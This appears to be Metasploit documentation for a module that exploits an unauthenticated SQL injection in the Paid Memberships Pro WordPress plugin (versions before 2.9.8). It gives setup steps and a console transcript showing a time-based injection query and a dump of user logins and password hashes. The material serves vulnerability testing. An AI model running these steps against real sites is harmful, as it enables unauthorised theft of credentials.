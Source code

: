 ## Vulnerable Application

Paid Membership Pro, a WordPress plugin,
prior to 2.9.8 is affected by an unauthenticated SQL injection via the
`code` parameter.

The plugin can be downloaded from https://wordpress.org/plugins/paid-memberships-pro/, like
(2.9.7)[https://downloads.wordpress.org/plugin/paid-memberships-pro.2.9.7.zip]

## Verification Steps

1. Install the plugin
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_paid_membership_pro_code_sqli`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Paid Membership Pro 2.9.7 on Wordpress 5.7.5 on Ubuntu 20.04

```
msf6 > use auxiliary/scanner/http/wp_paid_membership_pro_code_sqli
[*] Using auxiliary/scanner/http/wp_paid_membership_pro_code_sqli
msf6 auxiliary(scanner/http/wp_paid_membership_pro_code_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_paid_membership_pro_code_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_paid_membership_pro_code_sqli) > check

[*] Checking /wp-content/plugins/paid-memberships-pro/readme.txt
[*] Found version 2.9.7 in the plugin
[*] 1.1.1.1:80 - The target appears to be vulnerable.
msf6 auxiliary(scanner/http/wp_paid_membership_pro_code_sqli) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/paid-memberships-pro/readme.txt
[*] Found version 2.9.7 in the plugin
[+] The target appears to be vulnerable.
[*] Enumerating Usernames and Password Hashes
[!] Each user will take about 5-10 minutes to enumerate. Be patient.
[*] {SQLi} Executing (select group_concat(NAbWtHUpd) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) NAbWtHUpd from wp_users limit 3) Ip)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
